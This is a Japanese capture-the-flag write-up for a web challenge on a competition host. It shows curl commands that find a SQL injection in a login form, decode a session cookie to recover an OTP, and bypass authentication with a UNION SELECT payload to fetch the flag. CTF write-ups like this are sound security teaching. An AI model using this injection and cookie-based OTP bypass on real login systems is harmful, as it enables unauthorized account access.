


# Warm Me Up:WEB:60pts
The most secure login page you will ever come across.  

[http://ae90f9104110ec1915363.playat.flagyard.com](http://ae90f9104110ec1915363.playat.flagyard.com)  

# Solution
URLのみが渡される。  
アクセスすると、ログインフォームへ続くウェルカムページが表示される。  
  
リンクをクリックすると、ログインフォームへ遷移する。  
  
Usernameにシングルクォート`'`を入れるとエラーが発生したため、SQLiのようだ。  
```bash
$ curl -X POST http://ae90f9104110ec1915363.playat.flagyard.com/login -d "username='&password=satoki&otp=satoki"
<!doctype html>
<html lang=en>
<title>500 Internal Server Error</title>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.</p>
```
OTPがわからないので探していると、cookieに何やらついていることがわかる。  
```bash
$ curl http://ae90f9104110ec1915363.playat.flagyard.com/ -I
HTTP/1.1 200 OK
Date: Mon, 09 Oct 2023 09:48:56 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 975
Connection: keep-alive
Set-Cookie: session=eyJvdHAiOiJVVDY3U1RUWkkwRjhIODZWIn0.ZSPMiA.np5d29A9zojSAU-fRfnLDXkP29M; HttpOnly; Path=/
Vary: Cookie
Referrer-Policy: no-referrer

$ echo -n 'eyJvdHAiOiJVVDY3U1RUWkkwRjhIODZWIn0' | base64 -d
{"otp":"UT67STTZI0F8H86V"}base64: invalid input
```
デコードするとotpが含まれており、`UT67STTZI0F8H86V`と分かった。  
あとはSQLiでログインしてやれば良い。  
```bash
$ curl -X POST http://ae90f9104110ec1915363.playat.flagyard.com/login -d "username=' UNION SELECT 1, 1; -- satoki&password=satoki&otp=UT67STTZI0F8H86V" -H "Cookie: session=eyJvdHAiOiJVVDY3U1RUWkkwRjhIODZWIn0.ZSPMiA.np5d29A9zojSAU-fRfnLDXkP29M" -v
~~~
> POST /login HTTP/1.1
> Host: ae90f9104110ec1915363.playat.flagyard.com
> User-Agent: curl/8.2.1
> Accept: */*
> Cookie: session=eyJvdHAiOiJVVDY3U1RUWkkwRjhIODZWIn0.ZSPMiA.np5d29A9zojSAU-fRfnLDXkP29M
> Content-Length: 76
> Content-Type: application/x-www-form-urlencoded
>
< HTTP/1.1 302 FOUND
< Date: Mon, 09 Oct 2023 10:01:45 GMT
< Content-Type: text/html; charset=utf-8
< Content-Length: 197
< Connection: keep-alive
< Location: /flag
< Set-Cookie: session=eyJvdHAiOiJVVDY3U1RUWkkwRjhIODZWIiwidXNlcm5hbWUiOjF9.ZSPPiQ.ZH8Aiz-waxbLRPBT4f1i-axg3EM; HttpOnly; Path=/
< Vary: Cookie
< Referrer-Policy: no-referrer
<
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/flag">/flag</a>. If not, click the link.
~~~
```
エラーより、`users`テーブルに`username`や`password`があることがわかるが、それらを用いるとログインが失敗したため、UNIONで`1, 1`を返すようにすると、ログインに成功し`/flag`にリダイレクトした。
```bash
$ curl http://ae90f9104110ec1915363.playat.flagyard.com/flag -H "Cookie: session=eyJvdHAiOiJVVDY3U1RUWkkwRjhIODZWIiwidXNlcm5hbWUiOjF9.ZSPPiQ.ZH8Aiz-waxbLRPBT4f1i-axg3EM"
Here's your flag: BHFlagY{fe13fed56e14825120b961f3228edc12}
```
flagが得られた。  

## BHFlagY{fe13fed56e14825120b961f3228edc12}